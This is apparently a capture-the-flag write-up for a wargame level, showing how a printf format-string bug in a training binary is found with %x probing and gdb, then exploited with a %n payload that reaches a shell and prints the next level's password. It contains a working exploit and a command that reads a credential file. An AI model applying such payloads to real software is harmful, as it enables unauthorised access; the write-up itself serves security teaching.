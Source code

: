We have a `level3` binary that contains 2 functions : `main` and `v`.

`v` uses `fgets` function, which is a secure version of `gets`, so we won't be able to exploit the binary with a bufferoverflow.

Instead, we are going to exploit printf's format strings vulnerabilities.

A reminder of strings format with printf : 

![Strings formats](/level3/Capture%20d%E2%80%99%C3%A9cran%20de%202022-04-29%2017-30-23.png)

We will use the `%x` string format. It will read data from the stack. For each `%x`, `printf()` will fetch a number from the stack, treat this number as an address, and print out the memory contents pointed by this address as a string.

We try to write "AAAA" on the stack and see where it writes it :

> ./level3
>AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
>AAAA00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830

We can see that "AAAA" string is written in the **4th argument**. 

Next, we need to open `gdb` and see where to write something.

> (gdb) disass v
```
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We can see tha the program expects the register `eax` to be equal to `0x40` in order to enter an if condition and open a shell.

Right before that, a value if put in `eax`. This is where we need to write in order to enter the "if" condition : 

`    0x080484da <+54>:	mov    0x804988c,%eax`

We got our target address to write `0x804988c`. In little endian : `\x8c\x98\x04\x08`. The length of the address if 4 bytes.

Because in decimal 0x40 = 64, we need to write 60 + the 4 bytes long of the address. We have to padd the 60 bytes left by writing `%60`.

We add a `| cat` because otherwise the terminal would immediatly close.

> (python -c 'print "\x8c\x98\x04\x08%60x%4$n"' ; cat -) | ./level3 

>Wait what?!   
>cat /home/user/level4/.pass
>b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa


# Sources : 

printf format string exploit : 
- https://axcheron.github.io/exploit-101-format-strings/
